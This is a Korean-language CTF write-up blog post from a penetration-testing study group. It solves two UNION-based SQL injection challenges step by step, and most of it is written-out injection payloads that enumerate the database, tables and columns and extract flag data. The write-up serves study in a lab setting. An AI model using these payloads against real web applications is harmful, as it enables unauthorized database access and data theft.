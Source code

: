 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이: SQL Injection w. UNION"
excerpt: "모의해킹 취업반 스터디 7기 6주차"

date: 2024-11-25
last_modified_at: 2024-11-25

tags: [TIL, WEB, DATABASE, CTF]
---
```


# 목차
* [1번째 문제](#1번째-문제)
* [2번째 문제](#2번째-문제)

# 1번째 문제
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-1.png?raw=true)
처음 들어가면 볼 수 있는 화면이다. SQL Injection 문제라고 제목부터 박혀있으니 얌전히 query문을 작성하겠다.

## SQL Query 파악
1. **adminer**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-2.png?raw=true)  
    * 🤔 대소문자 구분이 없구나!
  
2. 🫣 **~~adminer'~~** -> X
  
3. **a%**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-3.png?raw=true)
    * 🤔 like 구절이 있구나
  
4. 🫣 **~~a#~~** -> X
  
5. 🫣 **~~a'#~~** -> X
  
6. **a%'#**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-4.png?raw=true)
    * 🫣 ~~입력값이 들어가는 곳이 like 위치인가 보다~~
    * 🤔 query에 괄호 안 사용하고 주석 필터링 없나 보다
  
7. 🫣 **~~' and '1' = '1~~** -> X
  
8. 🫣 **~~%' and '1' = '1~~** -> X
  
9. **' and '1' = '1'#**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-5.png?raw=true)
  
## column 개수 파악하기
10. **' order by 1, 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-6.png?raw=true)  
    * 💡 보이는 column이 4개니까 4개부터 시작했다.  
  
11. **' order by 1, 2, 3, 4, 5 #** -> X
    * 🤔 column의 개수가 4개구만
  
## UNION 사용 가능한지 확인하기
12. **' union select 1, 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-7.png?raw=true)
  
## DATABASE 이름 확인하기
13. **' union select database(), 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-8.png?raw=true)
    * 💡 database 이름은 sqli_1이었다.
  
## TABLE 이름 확인하기
19. **' union select table_name, 2, 3, 4 from information_schema.tables where table_schema = 'sqli_1' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-9.png?raw=true)
    * 💡 table이 총 3개가 나왔는데, 딱 봐도 수상해 보이는 flag_table와 plusFlag_Table를 먼저 시도하기로 했다.
  
## COLUMN 이름 확인하기
20. **' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'flag_table' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-10.png?raw=true)
    * 💡 flag_table에서는 flag라는 column을 확인할 수 있었다.  
  
21. **' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'plusFlag_Table' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-11.png?raw=true)
    * 💡 plusFlag_Table에서는 idx과 flag라는 column들을 확인할 수 있었다.
  
## DATA 추출하기
22. **' union select flag, 2, 3, 4 from flag_table #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-12.png?raw=true)
  
23. **' union select idx, flag, 3, 4 from plusFlag_Table #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-13.png?raw=true)
  
# 2번째 문제
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-14.png?raw=true)
위쪽 문제랑 보이기에는 비슷해보인다.
  
## SQL Query 파악
1. **normaltic**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-15.png?raw=true)
    * 💡 보이는 column은 ID, Level, Rank Point, info  
  
2. **normaltic' and '1' = '1**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-16.png?raw=true)
    * 💡 ID가 입력한 그대로 보임  
  
3. 🫣 **~~*~~** -> X
  
## column 개수 파악하기
4. **normaltic' order by 1, 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-17.png?raw=true)
    * 💡 보이는 column이 4개니까 4개부터 시작했다.
  
5. **normaltic' order by 1, 2, 3, 4, 5 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-18.png?raw=true)
  
6. **normaltic' order by 1, 2, 3, 4, 5, 6 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-19.png?raw=true)
  
7. **normaltic' order by 1, 2, 3, 4, 5, 6, 7 #** -> X
    * 🤔 column의 개수가 6개구만
  
## 출력되는 column 위치 찾기, DATABASE 이름 확인하기
8. **' union select 1, 2, 3, 4, 5, 6 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-20.png?raw=true)
    * 💡 보이는 column은 6번 위치에 있었다.  
  
10. **' union select 1, 2, 3, 4, 5, database() #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-21.png?raw=true)
    * 💡 database 이름은 sqli_5이다.
  
## TABLE 이름 확인하기
11. **' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-22.png?raw=true)
    * 💡 table 이름은 flag_honey였다.
  
## COLUMN 이름 확인하기
12. **' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'flag_honey' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-23.png?raw=true)
    * 💡 column 이름은 flag였다.
  
## DATA 추출하기
13. **' union select 1, 2, 3, 4, 5, flag from flag_honey #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-24.png?raw=true)
    * 😬 어쩐지 구라핑의 냄새가 나더라
  
## TABLE 이름 확인하기
11. **' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-22.png?raw=true)
    * 🤔 왜 1개씩 밖에 안 보일까?
        * 🤔 row가 딱 한 개다?
        * 🤔 row를 한 개씩만 보여준다?
            * 🤔 다른 row가 더 있는데 안 보이는 게 아닐까?
            * 🤔 다른 row를 보려면 어떤 걸 할 수 있을까?
  
12. **' union select 1, 2, 3, 4, 5, table_name from information_schema.tables order by 6 desc#**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-25.png?raw=true)
    * 💡 view라는 다른 table이 보여요 좋아요
    * 🤔 row를 한 개씩만 보여준다가 맞는 가정이겠네
  
13. **' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' order by 6 desc #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-26.png?raw=true)
    * 💡 딱 봐도 수상한 table 이름이다.
  
## COLUMN 이름 확인하고 DATA 추출하기 1
12. **' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'secret' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-27.png?raw=true)
    * 💡 column 이름은 flag였다.  
  
13. **' union select 1, 2, 3, 4, 5, flag from secret #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-28.png?raw=true)
    * 😬 아니 ㅋㅋㅋ 당했다
    * 🤔 여기서도 역순으로 정렬해볼까?  
  
15. **' union select 1, 2, 3, 4, 5, flag from secret order by 6 desc #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-29.png?raw=true)